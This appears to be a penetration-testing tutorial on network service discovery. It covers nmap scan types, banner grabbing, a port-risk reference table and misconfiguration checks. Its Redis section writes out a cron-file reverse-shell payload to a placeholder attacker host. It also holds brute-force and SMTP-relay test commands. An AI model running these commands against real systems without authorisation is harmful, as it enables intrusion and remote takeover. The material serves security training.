


# Service Discovery

> **Difficulty:** Beginner → Advanced | **Category:** Penetration Testing

**Service discovery** is the process of identifying all network services running on target hosts — what software is listening on which ports, what version it is, and what configuration it presents to the world. This is the critical step between finding live hosts and identifying exploitable weaknesses. A service banner alone can reveal the exact software version, operating system, and configuration choices that determine your attack path. This note covers the full methodology: TCP and UDP service discovery, version detection, banner analysis, a comprehensive port-to-service reference, and identification of misconfigurations directly from service responses.

---

## Table of Contents

1. [Service Discovery Fundamentals](#fundamentals)
2. [TCP Service Discovery](#tcp-discovery)
3. [UDP Service Discovery](#udp-discovery)
4. [Service Version Detection](#version-detection)
5. [Service Banner Analysis](#banner-analysis)
6. [Comprehensive Port Reference Table](#port-reference)
7. [Nmap Commands Reference](#nmap-reference)
8. [Identifying Misconfigurations from Banners](#misconfigurations)
9. [Service Discovery Workflow](#workflow)
10. [Output Parsing and Reporting](#output-parsing)

---

## Service Discovery Fundamentals

A **service** in networking is an application listening on a port, waiting for incoming connections. Each service speaks a **protocol** — a defined language of requests and responses. Service discovery answers three key questions:

1. **Is this port open?** — Does a service exist here?
2. **What service is running?** — Is this SSH, HTTP, a database?
3. **What version and configuration?** — Enough to identify vulnerabilities?



### Port States

| State | Meaning | Nmap Behavior |
|---|---|---|
| **Open** | Service is actively accepting connections | TCP SYN-ACK received |
| **Closed** | Port accessible but no service listening | TCP RST received |
| **Filtered** | Firewall dropping or rejecting packets | No response or ICMP unreachable |
| **Open\|Filtered** | Cannot determine (common with UDP) | No response received |
| **Unfiltered** | Port accessible, state unknown (ACK scan) | RST received |
| **Closed\|Filtered** | Ambiguous (IP ID scan) | Cannot determine |

---

## TCP Service Discovery

TCP is the dominant transport protocol for service communication. There are multiple scanning techniques, each with different stealth and accuracy trade-offs.

### TCP Connect Scan (`-sT`)

The **TCP Connect scan** completes the full three-way handshake. It is the most reliable method and requires no special privileges but leaves logs on the target.

```
Client → SYN → Target
Client ← SYN-ACK ← Target   (open port)
Client → ACK → Target
Client → RST → Target        (close connection)
```

```bash
# Full TCP connect scan (no root required)
nmap -sT -p 1-65535 192.168.1.100

# With service version detection
nmap -sT -sV -p 1-65535 192.168.1.100

# Against a range
nmap -sT -p 22,80,443,3306,5432 192.168.1.0/24
```

### SYN Scan (`-sS`) — Half-Open

The **SYN scan** (stealth scan) sends only the initial SYN packet. It never completes the handshake, making it harder to log. Requires root/administrator privileges.

```
Client → SYN → Target
Client ← SYN-ACK ← Target   (open)
Client → RST → Target        (never completes — less logging)
```

```bash
# SYN scan (requires root)
sudo nmap -sS -p 1-65535 192.168.1.100

# SYN scan with version detection and default scripts
sudo nmap -sS -sV -sC -p 1-65535 192.168.1.100

# Aggressive SYN scan
sudo nmap -sS -A -T4 192.168.1.100
```

### FIN/XMAS/NULL Scans (Stealth)

These scans exploit a quirk in RFC 793: closed ports respond with RST to FIN/XMAS/NULL packets; open ports typically ignore them. Useful against stateless firewalls.

```bash
# FIN scan (only FIN flag)
sudo nmap -sF -p 22,80,443 192.168.1.100

# XMAS scan (FIN+PSH+URG flags)
sudo nmap -sX -p 22,80,443 192.168.1.100

# NULL scan (no flags)
sudo nmap -sN -p 22,80,443 192.168.1.100
```

> **Note:** These scans don't work reliably against Windows hosts, which send RST for all probes regardless of port state, making all ports appear closed.

### ACK Scan (Firewall Mapping)

The **ACK scan** does not determine open ports — it determines firewall rules. Unfiltered means the firewall allows the packet through.

```bash
# Map firewall rules
sudo nmap -sA -p 80,443,8080 192.168.1.100

# Identify which ports bypass stateless packet filtering
sudo nmap -sA -p 1-1024 10.0.0.1
```

---

## UDP Service Discovery

**UDP services** are frequently overlooked and often less hardened. Common high-value UDP services include DNS (53), DHCP (67/68), SNMP (161/162), TFTP (69), and NTP (123).

```bash
# UDP scan of top 1000 ports (slow — be patient)
sudo nmap -sU --top-ports 1000 192.168.1.100 -oA udp_scan

# UDP scan with version detection (even slower)
sudo nmap -sU -sV --top-ports 200 192.168.1.100

# UDP + TCP combined scan
sudo nmap -sU -sS -p U:53,161,162,T:22,80,443 192.168.1.100

# Focus on critical UDP services
sudo nmap -sU -p 53,67,69,111,123,137,138,161,162,500,514,1900,4500 192.168.1.0/24
```

> **Warning:** UDP scanning is inherently slow because open ports often don't respond, requiring Nmap to wait for timeout. A full 65535-port UDP scan can take hours per host.

### UDP Service Response Characteristics

| Port | Service | Open Response |
|---|---|---|
| 53 | DNS | DNS response to query |
| 69 | TFTP | Data or error packet |
| 111 | RPC | RPC program list |
| 123 | NTP | NTP timestamp response |
| 137 | NetBIOS-NS | NetBIOS name response |
| 161 | SNMP | SNMP GetResponse |
| 500 | IKE/VPN | IKE response |
| 1900 | SSDP/UPnP | SSDP M-SEARCH response |

---

## Service Version Detection

**Version detection** (`-sV`) sends a series of protocol-specific probes to open ports and compares responses against the Nmap service database (`nmap-service-probes`).

```bash
# Basic version detection
nmap -sV 192.168.1.100

# Aggressive version detection (tries harder, noisier)
nmap -sV --version-intensity 9 192.168.1.100

# Light version detection (faster, less accurate)
nmap -sV --version-intensity 0 192.168.1.100

# Combined with OS detection
sudo nmap -sV -O 192.168.1.100

# Full aggressive scan
sudo nmap -sV -sC -O -A -T4 192.168.1.100
```

### Version Detection Intensity Levels

| Level | Description | Speed |
|---|---|---|
| 0 | Light — only most likely probes | Fastest |
| 5 | Default | Balanced |
| 9 | All probes tried | Slowest, most accurate |

### NSE Version Scripts

```bash
# Run version-category scripts
nmap -sV --script=version 192.168.1.100

# Specific version scripts
nmap --script=ssh2-enum-algos 192.168.1.100 -p 22
nmap --script=http-server-header 192.168.1.100 -p 80,443,8080
nmap --script=ftp-anon,ftp-bounce 192.168.1.100 -p 21
nmap --script=smtp-commands 192.168.1.100 -p 25
nmap --script=mysql-info 192.168.1.100 -p 3306
nmap --script=redis-info 192.168.1.100 -p 6379
```

---

## Service Banner Analysis

A **service banner** is the first data a service sends when a client connects. It typically reveals software name, version, OS hints, and configuration details.

### Manual Banner Grabbing

```bash
# Generic banner grab with netcat
nc -nv 192.168.1.100 22
nc -nv 192.168.1.100 21
nc -nv 192.168.1.100 25
nc -nv 192.168.1.100 110
nc -nv 192.168.1.100 143

# With timeout
nc -nv -w 3 192.168.1.100 80

# HTTP banner grab
echo -e "HEAD / HTTP/1.0\r\n\r\n" | nc -nv 192.168.1.100 80

# HTTPS banner
echo -e "HEAD / HTTP/1.0\r\n\r\n" | openssl s_client -connect 192.168.1.100:443 -quiet

# Using curl (HTTP headers)
curl -s -I http://192.168.1.100/ --max-time 5

# Using telnet for interactive banner grab
telnet 192.168.1.100 21
telnet 192.168.1.100 25
```

### Automated Banner Grabbing

```bash
# Banner grabbing with netcat across multiple hosts
for host in $(cat live_hosts.txt); do
  echo "=== $host ===" >> banners.txt
  timeout 3 nc -nv -w 2 $host 22 >> banners.txt 2>&1
  timeout 3 nc -nv -w 2 $host 80 >> banners.txt 2>&1
  timeout 3 nc -nv -w 2 $host 443 >> banners.txt 2>&1
done

# HTTP banner grabbing with httpx
cat live_hosts.txt | httpx -title -server -tech-detect -status-code -o http_banners.txt

# Grab specific service banners with Python
python3 -c "
import socket, sys
host = sys.argv[1]
port = int(sys.argv[2])
s = socket.socket()
s.settimeout(3)
s.connect((host, port))
print(s.recv(1024).decode('utf-8', errors='replace'))
s.close()
" 192.168.1.100 22
```

### Banner Analysis Examples

#### SSH Banner

```
SSH-2.0-OpenSSH_7.4
```

**Analysis:** OpenSSH 7.4 (released 2016). Multiple known CVEs including CVE-2018-15473 (username enumeration). Search for CVEs affecting this version.

```
SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.6
```

**Analysis:** Ubuntu 22.04 LTS host. Current OpenSSH, likely patched.

```
SSH-1.99-Cisco-1.25
```

**Analysis:** Cisco device running SSH. Version 1.99 indicates SSH1 compatibility mode — severe weakness.

#### FTP Banner

```
220 Microsoft FTP Service
```

**Analysis:** Windows IIS FTP. Check for anonymous login and FTP bounce.

```
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [192.168.1.100]
```

**Analysis:** ProFTPD 1.3.5. CVE-2015-3306 (mod_copy anonymous write). Default installation — likely misconfigured.

#### HTTP Headers

```http
HTTP/1.1 200 OK
Server: Apache/2.2.14 (Ubuntu)
X-Powered-By: PHP/5.3.2
```

**Analysis:** Apache 2.2.14 (EOL 2013) on Ubuntu. PHP 5.3.2 (EOL 2013). Massively outdated — multiple critical CVEs.

```http
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
X-Powered-By: Express
```

**Analysis:** Node.js Express application on nginx reverse proxy. Check for Node.js-specific vulnerabilities.

---

## Comprehensive Port Reference Table

| Port | Protocol | Service | Risk Level | Notes |
|---|---|---|---|---|
| 21 | TCP | **FTP** | High | Anonymous login, cleartext credentials, bounce attacks |
| 22 | TCP | **SSH** | Medium | Brute force, weak keys, old versions (CVE-2018-15473) |
| 23 | TCP | **Telnet** | Critical | Cleartext everything, should never be internet-facing |
| 25 | TCP | **SMTP** | Medium | Open relay, user enumeration (VRFY/EXPN), spoofing |
| 53 | TCP/UDP | **DNS** | Medium | Zone transfer (AXFR), cache poisoning, DNS tunneling |
| 67/68 | UDP | **DHCP** | Medium | Rogue DHCP server, starvation attacks |
| 69 | UDP | **TFTP** | High | No authentication, allows arbitrary file read/write |
| 80 | TCP | **HTTP** | High | All web application vulnerabilities, cleartext |
| 110 | TCP | **POP3** | High | Cleartext email credentials, sniffing |
| 111 | TCP/UDP | **RPC/portmapper** | High | NFS, NIS enumeration, many old exploits |
| 119 | TCP | **NNTP** | Low | Newsgroups, rarely relevant |
| 123 | UDP | **NTP** | Medium | Amplification DDoS, monlist CVE-2013-5211 |
| 135 | TCP | **MSRPC** | High | Windows RPC endpoint mapper, lateral movement |
| 137-139 | TCP/UDP | **NetBIOS** | High | Name resolution, null sessions, enumeration |
| 143 | TCP | **IMAP** | High | Cleartext email, brute force |
| 161/162 | UDP | **SNMP** | Critical | Community strings "public/private", full device info |
| 389 | TCP/UDP | **LDAP** | High | Null bind, user enumeration, credential interception |
| 443 | TCP | **HTTPS** | Medium | Web app vulns over TLS, TLS misconfig |
| 445 | TCP | **SMB** | Critical | EternalBlue (MS17-010), ransomware, lateral movement |
| 465 | TCP | **SMTPS** | Medium | SMTP over TLS — check relay config |
| 500 | UDP | **IKE** | Medium | VPN negotiation, aggressive mode fingerprinting |
| 512-514 | TCP | **rexec/rsh/rlogin** | Critical | Trust-based auth, no encryption |
| 514 | UDP | **Syslog** | Medium | Cleartext logs, injection |
| 515 | TCP | **LPD/LPR** | Medium | Printer exploitation, PJL commands |
| 587 | TCP | **SMTP Submission** | Medium | Auth SMTP, check for relay |
| 631 | TCP | **IPP (CUPS)** | Medium | Printer RCE (CVE-2024-47176) |
| 636 | TCP | **LDAPS** | Medium | LDAP over TLS — check null bind |
| 873 | TCP | **rsync** | Critical | Unauthenticated file access frequently found |
| 993 | TCP | **IMAPS** | Medium | IMAP over TLS — still brute-forceable |
| 995 | TCP | **POP3S** | Medium | POP3 over TLS |
| 1080 | TCP | **SOCKS Proxy** | High | Open proxy, pivoting |
| 1099 | TCP | **Java RMI** | Critical | Remote code execution (Jenkins, older Java apps) |
| 1433 | TCP | **MSSQL** | High | SQL injection pivot, xp_cmdshell |
| 1521 | TCP | **Oracle DB** | High | TNS Listener poisoning, default accounts |
| 1723 | TCP | **PPTP VPN** | High | Weak MS-CHAPv2, easy to crack |
| 2049 | TCP/UDP | **NFS** | Critical | No-auth NFS shares, root squash bypass |
| 2375/2376 | TCP | **Docker API** | Critical | Unauthenticated Docker daemon = instant RCE |
| 2379 | TCP | **etcd** | Critical | Kubernetes secrets, often unauth |
| 3000 | TCP | **Grafana/Node apps** | High | Default Grafana port, CVE-2021-43798 |
| 3128 | TCP | **Squid Proxy** | High | Open proxy, internal network access |
| 3306 | TCP | **MySQL** | High | Default root no-password, SQL injection |
| 3389 | TCP | **RDP** | High | BlueKeep (CVE-2019-0708), brute force |
| 4443 | TCP | **HTTPS-alt** | Medium | Alternative HTTPS, admin panels |
| 4848 | TCP | **GlassFish Admin** | Critical | Default admin console, CVE-2011-2300 |
| 5000 | TCP | **Flask/UPnP** | Medium | Dev servers, Docker API |
| 5432 | TCP | **PostgreSQL** | High | Default postgres/postgres, pg_hba.conf trusts |
| 5601 | TCP | **Kibana** | High | Unauth access to Elasticsearch data, SSRF |
| 5900 | TCP | **VNC** | Critical | Cleartext, weak auth, no-auth common |
| 6379 | TCP | **Redis** | Critical | Unauthenticated by default, RCE via config write |
| 7001/7002 | TCP | **WebLogic** | Critical | Deserialization RCE (many CVEs) |
| 8080 | TCP | **HTTP-alt** | High | Jenkins, Tomcat, dev servers |
| 8443 | TCP | **HTTPS-alt** | High | Admin panels, Tomcat HTTPS |
| 8888 | TCP | **Jupyter/HTTP** | Critical | Unauthenticated Jupyter = direct code execution |
| 9000 | TCP | **PHP-FPM/Fastcgi** | Critical | Direct FastCGI RCE if exposed |
| 9001 | TCP | **Tor/Supervisord** | High | Supervisord unauthenticated |
| 9090 | TCP | **Prometheus** | High | Exposes all metrics, sometimes credentials |
| 9200/9300 | TCP | **Elasticsearch** | Critical | Unauth data access, no auth by default in old versions |
| 10250 | TCP | **Kubelet API** | Critical | Container exec without auth |
| 10255 | TCP | **Kubelet Read-Only** | High | Kubernetes pod info |
| 11211 | TCP/UDP | **Memcached** | Critical | Unauth access, amplification DDoS |
| 27017 | TCP | **MongoDB** | Critical | No auth by default (old versions), full DB access |
| 27018 | TCP | **MongoDB shard** | Critical | Same as 27017 |
| 50000 | TCP | **SAP/Jenkins agent** | Critical | Jenkins CLI RCE, SAP Dispatcher |
| 50070 | TCP | **Hadoop HDFS** | Critical | Unauth data access, code execution |

---

## Nmap Commands Reference

### Basic Scans

```bash
# Single host scan
nmap 192.168.1.100

# Scan multiple hosts
nmap 192.168.1.100 192.168.1.200 192.168.1.201

# Scan a subnet
nmap 192.168.1.0/24

# Scan from file
nmap -iL targets.txt

# Exclude hosts
nmap 192.168.1.0/24 --exclude 192.168.1.1,192.168.1.254
```

### Port Specification

```bash
# Specific ports
nmap -p 22,80,443 192.168.1.100

# Port range
nmap -p 1-1024 192.168.1.100

# All ports
nmap -p 1-65535 192.168.1.100
nmap -p- 192.168.1.100

# Top N ports
nmap --top-ports 100 192.168.1.100
nmap --top-ports 1000 192.168.1.100

# By name
nmap -p ssh,http,https 192.168.1.100

# UDP + TCP
nmap -p T:22,80,U:53,161 192.168.1.100
```

### Scan Techniques

```bash
# SYN scan (default with root)
sudo nmap -sS 192.168.1.100

# TCP Connect (no root)
nmap -sT 192.168.1.100

# UDP scan
sudo nmap -sU 192.168.1.100

# FIN scan
sudo nmap -sF 192.168.1.100

# XMAS scan
sudo nmap -sX 192.168.1.100

# NULL scan
sudo nmap -sN 192.168.1.100

# ACK scan (firewall mapping)
sudo nmap -sA 192.168.1.100

# IP protocol scan
sudo nmap -sO 192.168.1.100

# Idle/Zombie scan (very stealthy)
sudo nmap -sI zombie_host 192.168.1.100
```

### Service and OS Detection

```bash
# Version detection
nmap -sV 192.168.1.100

# OS detection (requires root)
sudo nmap -O 192.168.1.100

# OS detection with aggressive guessing
sudo nmap -O --osscan-guess 192.168.1.100

# All detection (OS + version + scripts + traceroute)
sudo nmap -A 192.168.1.100
```

### NSE Scripts

```bash
# Default scripts
nmap -sC 192.168.1.100

# Specific script
nmap --script=http-title 192.168.1.100

# Script category
nmap --script=auth 192.168.1.100
nmap --script=vuln 192.168.1.100
nmap --script=exploit 192.168.1.100
nmap --script=discovery 192.168.1.100
nmap --script=brute 192.168.1.100

# Multiple scripts
nmap --script=http-robots.txt,http-headers,http-methods 192.168.1.100

# Script with arguments
nmap --script=http-brute --script-args userdb=users.txt,passdb=pass.txt 192.168.1.100 -p 80

# SMB scripts
nmap --script=smb-vuln-ms17-010 192.168.1.100 -p 445
nmap --script=smb-enum-shares,smb-enum-users 192.168.1.100 -p 445
nmap --script=smb-os-discovery 192.168.1.100

# SSH scripts
nmap --script=ssh-auth-methods --script-args="ssh.user=root" 192.168.1.100 -p 22
nmap --script=ssh2-enum-algos 192.168.1.100 -p 22
nmap --script=ssh-brute 192.168.1.100 -p 22

# FTP scripts
nmap --script=ftp-anon,ftp-brute,ftp-bounce 192.168.1.100 -p 21

# MySQL scripts
nmap --script=mysql-empty-password,mysql-info,mysql-enum 192.168.1.100 -p 3306

# SNMP scripts
nmap --script=snmp-info,snmp-interfaces,snmp-processes 192.168.1.100 -p 161 -sU

# Vulnerability scripts
nmap --script=vuln 192.168.1.100
nmap --script=vulners --script-args mincvss=7 192.168.1.100
```

### Timing and Performance

```bash
# Timing templates (T0=paranoid to T5=insane)
nmap -T0 192.168.1.100  # Paranoid — IDS evasion, very slow
nmap -T1 192.168.1.100  # Sneaky
nmap -T2 192.168.1.100  # Polite — reduces bandwidth
nmap -T3 192.168.1.100  # Normal (default)
nmap -T4 192.168.1.100  # Aggressive — faster, assumes fast network
nmap -T5 192.168.1.100  # Insane — very fast, may miss results

# Fine-grained timing
nmap --min-rate 1000 192.168.1.100          # Minimum 1000 packets/sec
nmap --max-rate 500 192.168.1.100           # Maximum 500 packets/sec
nmap --min-parallelism 50 192.168.1.100     # Minimum parallel probes
nmap --max-retries 1 192.168.1.100          # Only retry once
nmap --host-timeout 30m 192.168.1.100       # Give up on host after 30 min
nmap --scan-delay 500ms 192.168.1.100       # Wait 500ms between probes
```

### Output Formats

```bash
# Normal output
nmap -oN output.txt 192.168.1.100

# XML output
nmap -oX output.xml 192.168.1.100

# Grepable output
nmap -oG output.gnmap 192.168.1.100

# All formats simultaneously
nmap -oA output_basename 192.168.1.100

# Script kiddie output (for fun)
nmap -oS output.txt 192.168.1.100
```

### Host Discovery (Pre-Scan)

```bash
# Ping sweep only
nmap -sn 192.168.1.0/24

# Disable host discovery (treat all hosts as up)
nmap -Pn 192.168.1.100

# TCP SYN ping
nmap -PS22,80,443 192.168.1.0/24

# TCP ACK ping
nmap -PA80,443 192.168.1.0/24

# UDP ping
nmap -PU53,161 192.168.1.0/24

# ICMP echo ping
nmap -PE 192.168.1.0/24

# ARP ping (local network only)
sudo nmap -PR 192.168.1.0/24
```

---

## Identifying Misconfigurations from Banners

### Anonymous FTP Access

```bash
# Test for anonymous FTP
nmap --script=ftp-anon 192.168.1.100 -p 21

# Manual test
ftp 192.168.1.100
# Enter: anonymous
# Enter: anonymous@test.com

# Grab FTP banner and list files
echo "USER anonymous
PASS anonymous@
LIST" | nc -n 192.168.1.100 21
```

**Misconfiguration indicators:**
- `230 Login successful` after anonymous credentials
- `drwxrwxrwx` (world-writable) directories visible in FTP listing

### SSH Weak Configuration

```bash
# Check supported key exchange and cipher algorithms
nmap --script=ssh2-enum-algos 192.168.1.100 -p 22

# Check for old SSH protocol support
nc -w 3 192.168.1.100 22 | grep "SSH-1"

# ssh-audit (dedicated tool)
ssh-audit 192.168.1.100
```

**Misconfiguration indicators:**
- `diffie-hellman-group1-sha1` (logjam-vulnerable)
- `arcfour` (RC4 — broken cipher)
- `SSH-1.` prefix in banner (SSH protocol version 1)

### Open SMTP Relay

```bash
# Manual relay test
telnet 192.168.1.100 25
EHLO test.com
MAIL FROM: <attacker@external.com>
RCPT TO: <victim@other-external.com>
DATA
Subject: Relay test
Test email
.
QUIT

# Automated relay test
nmap --script=smtp-open-relay 192.168.1.100 -p 25,587

# User enumeration via VRFY
nmap --script=smtp-enum-users --script-args smtp-enum-users.methods={VRFY,EXPN,RCPT} 192.168.1.100
```

### SNMP Community String Exposure

```bash
# Test default community strings
nmap -sU --script=snmp-info --script-args snmp.community=public 192.168.1.100 -p 161
nmap -sU --script=snmp-info --script-args snmp.community=private 192.168.1.100 -p 161

# Brute force community strings
nmap -sU --script=snmp-brute 192.168.1.100 -p 161

# Full SNMP enumeration (once community string known)
snmpwalk -c public -v1 192.168.1.100
snmpwalk -c public -v2c 192.168.1.100

# Get specific OIDs
snmpget -c public -v2c 192.168.1.100 1.3.6.1.2.1.1.1.0  # System description
snmpget -c public -v2c 192.168.1.100 1.3.6.1.2.1.1.5.0  # Hostname
```

### Redis Unauthenticated Access

```bash
# Test for unauthenticated Redis
redis-cli -h 192.168.1.100 ping
redis-cli -h 192.168.1.100 info

# If accessible, dump keys
redis-cli -h 192.168.1.100 keys "*"
redis-cli -h 192.168.1.100 config get requirepass

# Attempt RCE via config set (classic technique)
redis-cli -h 192.168.1.100 config set dir /var/spool/cron
redis-cli -h 192.168.1.100 config set dbfilename root
redis-cli -h 192.168.1.100 set payload "\n\n*/1 * * * * bash -i >& /dev/tcp/attacker/4444 0>&1\n\n"
redis-cli -h 192.168.1.100 bgsave
```

> **Warning:** The Redis RCE technique above writes a malicious cron file. Only perform this in authorized engagements where destructive/persistent testing is explicitly in scope.

### MongoDB Unauthenticated Access

```bash
# Test for unauth MongoDB
mongo --host 192.168.1.100 --port 27017

# List databases
mongo --host 192.168.1.100 --eval "printjson(db.adminCommand('listDatabases'))"

# Nmap MongoDB scripts
nmap --script=mongodb-info,mongodb-databases 192.168.1.100 -p 27017
```

---

## Service Discovery Workflow



---

## Output Parsing and Reporting

### Parsing Nmap XML Output

```bash
# Extract all open ports from XML
grep -oP 'portid="\K[0-9]+' nmap_output.xml | sort -nu

# Use nmaptocsv
python3 nmaptocsv.py -x nmap_output.xml -o services.csv

# Use python-libnmap
python3 - <<'EOF'
from libnmap.parser import NmapParser

report = NmapParser.parse_fromfile('nmap_output.xml')
for host in report.hosts:
    for svc in host.services:
        if svc.state == 'open':
            print(f"{host.address}\t{svc.port}\t{svc.protocol}\t{svc.service}\t{svc.banner}")
EOF
```

### Parsing Grepable Output

```bash
# Extract hosts with specific port open
grep "22/open" nmap_output.gnmap | awk '{print $2}'

# Extract all open ports for a specific host
grep "10.0.0.1" nmap_output.gnmap | grep -oP '\d+/open/tcp//\w+' 

# List all services found
grep "Ports:" nmap_output.gnmap | grep -oP '\d+/open/tcp//\w+' | \
  awk -F/ '{print $5}' | sort | uniq -c | sort -rn
```

### Building a Service Summary

```bash
# Create clean service register from Nmap XML
python3 - <<'EOF'
import xml.etree.ElementTree as ET
import csv

tree = ET.parse('nmap_output.xml')
root = tree.getroot()

with open('service_register.csv', 'w', newline='') as f:
    writer = csv.writer(f)
    writer.writerow(['IP', 'Hostname', 'Port', 'Protocol', 'State', 'Service', 'Version', 'Banner'])
    
    for host in root.findall('host'):
        addr = host.find('address').get('addr')
        hostname_elem = host.find('.//hostname')
        hostname = hostname_elem.get('name') if hostname_elem is not None else ''
        
        for port in host.findall('.//port'):
            state = port.find('state').get('state')
            if state == 'open':
                portid = port.get('portid')
                protocol = port.get('protocol')
                service_elem = port.find('service')
                service = service_elem.get('name', '') if service_elem is not None else ''
                version = f"{service_elem.get('product','')} {service_elem.get('version','')}" if service_elem is not None else ''
                banner = service_elem.get('extrainfo', '') if service_elem is not None else ''
                writer.writerow([addr, hostname, portid, protocol, state, service, version.strip(), banner])

print("Service register written to service_register.csv")
EOF
```

> **Note:** Always save Nmap output in all three formats (`-oA basename`) during engagements. XML enables programmatic parsing, grepable enables quick command-line queries, and normal output is human-readable for quick review.
